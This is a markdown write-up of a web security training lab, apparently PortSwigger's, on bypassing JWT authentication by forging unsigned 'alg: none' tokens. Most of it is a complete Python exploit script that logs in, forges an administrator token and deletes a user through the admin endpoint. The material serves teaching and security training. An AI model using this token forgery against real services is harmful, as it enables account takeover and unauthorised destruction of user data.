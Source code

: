 ```yaml
---
title: 'JWT Lab 1'
description: 'Exploiting JWT token validation flaws by forging unsigned tokens with "alg": "none" to impersonate admin users and perform privileged actions.'
---
```



## JWT Authentication Bypass via Unverified Signature

<div style="text-align: justify;">
  In this challenge, I discovered a weak implementation of JWT validation where the server accepted forged tokens with no valid signature — as long as the structure and claims appeared correct. By simply changing the `sub` claim to `administrator` and removing the signature entirely (`alg: none`), I successfully impersonated the admin and deleted a user from the application.

  This wasn't about skipping cryptographic checks, but rather the server trusting unsigned JWTs when it shouldn't. It's a classic reminder that **token structure alone should never be trusted without proper signature verification**.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The script forges a JWT by setting `"alg": "none"` and changing the payload to impersonate the admin.
- No login token or server interaction is needed beyond one initial token capture.
- The forged JWT is used directly in the session cookie to make a privileged request.
- You can observe the exploit's impact using Burp Suite for request inspection.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import base64
import json
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
                        
# Set Burp proxy
proxies = {
'http': 'http://127.0.0.1:8080',
'https': 'http://127.0.0.1:8080'
}

# Base64 encode JSON without padding
def b64encode(data):
    return base64.urlsafe_b64encode(json.dumps(data).encode()).decode().rstrip('=')

# Get CSRF token from login page
def get_csrf_token(s, url):
    r = s.get(url + "/login", verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, "html.parser")
    token = soup.find("input", {"name": "csrf"})["value"]
    return token

# Log in and extract session JWT
def login_and_get_jwt(s, url, username, password):
    csrf = get_csrf_token(s, url)
    data = {
        "csrf": csrf,
        "username": username,
        "password": password
    }

    r = s.post(url + "/login", data=data, verify=False, proxies=proxies, allow_redirects=False)
    
    if "session" not in r.cookies:
        print("[-] Login failed or JWT cookie not found.")
        sys.exit(1)

    return r.cookies.get("session")

# Forge new JWT with alg: none and sub: administrator
def forge_jwt(original_jwt):
    # Decode original JWT (split into header, payload, signature)
    parts = original_jwt.split('.')
    if len(parts) != 3:
        print("[-] Invalid JWT format.")
        sys.exit(1)

    # Decode payload and modify 'sub'
    payload = json.loads(base64.urlsafe_b64decode(parts[1] + "==").decode())
    payload['sub'] = 'administrator'

    # Create new header
    header = {"alg": "none"}

    # Forge unsigned JWT
    forged = b64encode(header) + "." + b64encode(payload) + "."
    return forged

# Use the forged token to delete a target user
def delete_user(s, url, token, target_user):
    uri = f"/admin/delete?username={target_user}"
    headers = {
        "User-Agent": "Mozilla/5.0",
        "Referer": f"{url}/admin"
    }
    cookies = {"session": token}

    r = s.get(url + uri, headers=headers, cookies=cookies, verify=False, proxies=proxies)

    if "User deleted successfully" in r.text or r.status_code == 200:
        print(f"[+] User '{target_user}' deleted successfully.")
    else:
        print(f"[-] Failed to delete user '{target_user}'.")
        print(r.text)

 # Main script
if __name__ == "__main__":
    try:
         url = sys.argv[1].strip().rstrip("/")
    except IndexError:
        print(f"[-] Usage: {sys.argv[0]} <url>")
        sys.exit(1)

    session = requests.Session()

    # Step 1: Login as 'wiener' and get original JWT
    original_jwt = login_and_get_jwt(session, url, "wiener", "peter")
    print(f"[+] Original JWT: {original_jwt}")

    # Step 2: Forge JWT with admin privileges
    forged_token = forge_jwt(original_jwt)
    print(f"[+] Forged JWT: {forged_token}")

    # Step 3: Use forged token to delete 'carlos'
    delete_user(session, url, forged_token, "carlos")
```


<Comment />
